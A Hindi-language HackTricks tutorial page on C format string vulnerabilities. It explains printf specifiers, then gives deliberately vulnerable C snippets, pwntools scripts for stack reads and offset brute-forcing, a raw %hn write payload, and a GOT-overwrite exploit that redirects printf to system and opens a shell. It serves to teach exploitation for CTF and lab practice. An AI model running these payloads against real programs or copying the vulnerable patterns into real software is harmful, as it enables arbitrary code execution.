 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

C में **`printf`** एक फ़ंक्शन है जिसका उपयोग **किसी स्ट्रिंग को प्रिंट करने** के लिए किया जा सकता है। इस फ़ंक्शन की **पहली पैरामीटर** जो अपेक्षित है वह है **फॉर्मेटर्स के साथ कच्चा टेक्स्ट**। **अन्य पैरामीटर** जो अपेक्षित हैं वे हैं **कच्चे टेक्स्ट** से **फॉर्मेटर्स** को **बदलने** के लिए **मान**।

अन्य संवेदनशील फ़ंक्शन हैं **`sprintf()`** और **`fprintf()`**।

संवेदनशीलता तब प्रकट होती है जब **हमलावर टेक्स्ट को इस फ़ंक्शन के पहले तर्क के रूप में उपयोग किया जाता है**। हमलावर एक **विशेष इनपुट तैयार करने** में सक्षम होगा जो **printf फॉर्मेट** स्ट्रिंग क्षमताओं का दुरुपयोग करके किसी भी पते (पढ़ने योग्य/लिखने योग्य) में **कोई भी डेटा पढ़ने और लिखने** के लिए। इस तरह से **मनमाना कोड निष्पादित** करने में सक्षम होना।

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**उदाहरण:**

* कमजोर उदाहरण:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* सामान्य उपयोग:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* गायब तर्कों के साथ:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf कमजोर:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Pointers तक पहुँचना**

फॉर्मेट **`%<n>$x`**, जहाँ `n` एक संख्या है, printf को यह संकेत करने की अनुमति देता है कि n पैरामीटर (स्टैक से) का चयन करें। इसलिए, यदि आप printf का उपयोग करके स्टैक से 4वें पैरामीटर को पढ़ना चाहते हैं, तो आप कर सकते हैं:
```c
printf("%x %x %x %x")
```
और आप पहले से चौथे पैरामीटर तक पढ़ सकते हैं।

या आप कर सकते हैं:
```c
printf("%4$x")
```
और सीधे चौथे को पढ़ें।

ध्यान दें कि हमलावर `printf` **पैरामीटर को नियंत्रित करता है, जिसका अर्थ है कि** उसका इनपुट `printf` के कॉल होने पर स्टैक में होगा, जिसका अर्थ है कि वह स्टैक में विशिष्ट मेमोरी पते लिख सकता है।

{% hint style="danger" %}
एक हमलावर जो इस इनपुट को नियंत्रित करता है, वह **स्टैक में मनमाना पता जोड़ने में सक्षम होगा और `printf` को उन्हें एक्सेस करने के लिए मजबूर करेगा**। अगले अनुभाग में इस व्यवहार का उपयोग कैसे करें, यह समझाया जाएगा।
{% endhint %}

## **मनमाना पढ़ना**

फॉर्मेटर **`%n$s`** का उपयोग करना संभव है ताकि **`printf`** **n स्थिति** में स्थित **पते** को प्राप्त करे, उसके बाद और **इसे एक स्ट्रिंग के रूप में प्रिंट करे** (जब तक 0x00 नहीं मिलता)। तो यदि बाइनरी का बेस पता **`0x8048000`** है, और हम जानते हैं कि उपयोगकर्ता इनपुट स्टैक में चौथी स्थिति से शुरू होता है, तो बाइनरी की शुरुआत को प्रिंट करना संभव है:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
ध्यान दें कि आप इनपुट की शुरुआत में 0x8048000 का पता नहीं डाल सकते क्योंकि स्ट्रिंग उस पते के अंत में 0x00 पर कट जाएगी।
{% endhint %}

### ऑफसेट खोजें

अपने इनपुट के लिए ऑफसेट खोजने के लिए, आप 4 या 8 बाइट्स (`0x41414141`) भेज सकते हैं, उसके बाद **`%1$x`** और **मान बढ़ाएं** जब तक कि `A's` प्राप्त न हो जाएं।

<details>

<summary>ब्रूट फोर्स printf ऑफसेट</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### कितनी उपयोगी

मनमाने पढ़ने उपयोगी हो सकते हैं:

* **मेमोरी** से **बाइनरी** को **डंप** करना
* **संवेदनशील** **जानकारी** संग्रहीत करने वाले मेमोरी के **विशिष्ट भागों** तक **पहुँच** प्राप्त करना (जैसे कि कैनरी, एन्क्रिप्शन कुंजी या कस्टम पासवर्ड जैसे इस [**CTF चुनौती**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value) में)

## **मनमाना लिखना**

फॉर्मेटर **`%<num>$n`** **लिखता** है **लिखे गए बाइट्स की संख्या** को **संकेतित पते** में \<num> पैरामीटर में स्टैक में। यदि एक हमलावर printf के साथ जितने चाहें उतने अक्षर लिख सकता है, तो वह **`%<num>$n`** को एक मनमाना संख्या को एक मनमाने पते पर लिखने में सक्षम होगा।

भाग्यवश, संख्या 9999 लिखने के लिए, इनपुट में 9999 "A"s जोड़ना आवश्यक नहीं है, इसके लिए फॉर्मेटर **`%.<num-write>%<num>$n`** का उपयोग करके संख्या **`<num-write>`** को **`num` स्थिति द्वारा इंगित पते** में लिखना संभव है।
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
हालांकि, ध्यान दें कि आमतौर पर एक पता जैसे `0x08049724` (जो एक HUGE संख्या है जिसे एक बार में लिखना है) लिखने के लिए, **`$hn`** का उपयोग किया जाता है बजाय **`$n`** के। यह **केवल 2 Bytes** लिखने की अनुमति देता है। इसलिए, यह ऑपरेशन दो बार किया जाता है, एक बार पते के उच्चतम 2B के लिए और दूसरी बार निम्नतम के लिए।

इसलिए, यह भेद्यता **किसी भी पते में कुछ भी लिखने की अनुमति देती है (मनमाना लेखन)।**

इस उदाहरण में, लक्ष्य यह होगा कि **एक फ़ंक्शन** के **पते** को **ओवरराइट** किया जाए जो बाद में **GOT** तालिका में कॉल किया जाएगा। हालांकि, यह अन्य मनमाने लेखन को exec तकनीकों का दुरुपयोग कर सकता है:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

हम एक **फ़ंक्शन** को **ओवरराइट** करने जा रहे हैं जो **उपयोगकर्ता** से अपने **आर्गुमेंट्स** को **प्राप्त** करता है और इसे **`system`** **फ़ंक्शन** की ओर **इशारा** करता है।\
जैसा कि उल्लेख किया गया है, पते को लिखने के लिए आमतौर पर 2 चरणों की आवश्यकता होती है: आप **पहले 2Bytes** का पता लिखते हैं और फिर अन्य 2। ऐसा करने के लिए **`$hn`** का उपयोग किया जाता है।

* **HOB** को पते के 2 उच्चतम बाइट्स के लिए कहा जाता है
* **LOB** को पते के 2 निम्नतम बाइट्स के लिए कहा जाता है

फिर, यह देखते हुए कि फ़ॉर्मेट स्ट्रिंग कैसे काम करता है, आपको **पहले सबसे छोटे** \[HOB, LOB] को लिखना होगा और फिर दूसरे को।

यदि HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

यदि HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools टेम्पलेट

आप इस प्रकार की कमजोरियों के लिए एक **टेम्पलेट** तैयार करने के लिए पा सकते हैं:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

या इस बुनियादी उदाहरण से [**यहां**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## फ़ॉर्मेट स्ट्रिंग्स से BOF

यह संभव है कि फ़ॉर्मेट स्ट्रिंग भेद्यता की लिखने की क्रियाओं का दुरुपयोग करके **स्टैक के पते में लिखें** और **बफर ओवरफ्लो** प्रकार की भेद्यता का शोषण करें।

## अन्य उदाहरण और संदर्भ

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 बिट, कोई रिलरो, कोई कैनरी, nx, कोई पाई, स्टैक से ध्वज लीक करने के लिए फ़ॉर्मेट स्ट्रिंग्स का बुनियादी उपयोग (कार्य निष्पादन प्रवाह को बदलने की आवश्यकता नहीं)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 बिट, रिलरो, कोई कैनरी, nx, कोई पाई, फ़ॉर्मेट स्ट्रिंग `fflush` के पते को जीतने के फ़ंक्शन (ret2win) के साथ ओवरराइट करने के लिए
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 बिट, रिलरो, कोई कैनरी, nx, कोई पाई, फ़ॉर्मेट स्ट्रिंग `.fini_array` में मुख्य के अंदर एक पते को लिखने के लिए (ताकि प्रवाह एक बार और लूप हो) और `system` के पते को GOT तालिका में लिखें जो `strlen` की ओर इशारा करता है। जब प्रवाह मुख्य में वापस जाता है, `strlen` उपयोगकर्ता इनपुट के साथ निष्पादित होता है और `system` की ओर इशारा करता है, यह पास किए गए आदेशों को निष्पादित करेगा।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

